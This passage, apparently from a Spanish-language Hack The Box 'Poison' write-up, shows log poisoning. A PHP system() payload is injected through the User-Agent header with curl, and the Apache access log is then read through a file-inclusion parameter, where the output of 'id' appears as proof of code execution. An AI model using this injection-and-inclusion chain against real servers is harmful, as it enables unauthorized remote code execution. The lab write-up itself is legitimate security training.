 ![](/assets/images/htb-writeup-poison/web5.png)

Como la web interpreta **PHP** lo que podemos hacer es mediante el `User-Agent` inyectar código `PHP` para ver si lo interpreta esto lo que va hacer es como vamos a hacerlo mediante `curl` por `GET` se va a guardar el el `access.log` y hay podremos ver si en este caso funciono

```bash
❯ curl -s -X -GET "http://10.129.1.254/test" -H "User-Agent: <?php system('id'); ?>"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>501 Not Implemented</title>
</head><body>
<h1>Not Implemented</h1>
<p>-GET to /test not supported.<br />
</p>
</body></html>
```

Y vemos que como tal fue interpretado

```bash
❯ curl -s -X -GET "http://10.129.1.254/browse.php?file=/var/log/httpd-access.log" | tail -n 10
10.10.14.14 - - [19/Jul/2023:22:35:58 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 386189 "-" "Mozilla/5.0 (Windows NT 10.0; rv:114.0) Gecko/20100101 Firefox/114.0"
10.10.14.14 - - [19/Jul/2023:22:35:59 +0200] "GET /favicon.ico HTTP/1.1" 404 209 "http://10.129.1.254/browse.php?file=/var/log/httpd-access.log" "Mozilla/5.0 (Windows NT 10.0; rv:114.0) Gecko/20100101 Firefox/114.0"
10.10.14.14 - - [19/Jul/2023:22:40:47 +0200] "-GET /test HTTP/1.1" 501 196 "-" "www
"
10.10.14.14 - - [19/Jul/2023:22:40:57 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 386680 "-" "Mozilla/5.0 (Windows NT 10.0; rv:114.0) Gecko/20100101 Firefox/114.0"
10.10.14.14 - - [19/Jul/2023:22:42:27 +0200] "-GET /browse.php?file=/test HTTP/1.1" 200 355 "-" "www
"
10.10.14.14 - - [19/Jul/2023:22:42:33 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 386972 "-" "Mozilla/5.0 (Windows NT 10.0; rv:114.0) Gecko/20100101 Firefox/114.0"
10.10.14.14 - - [19/Jul/2023:22:43:56 +0200] "-GET /test HTTP/1.1" 501 196 "-" "uid=80(www) gid=80(www) groups=80(www)
"
```
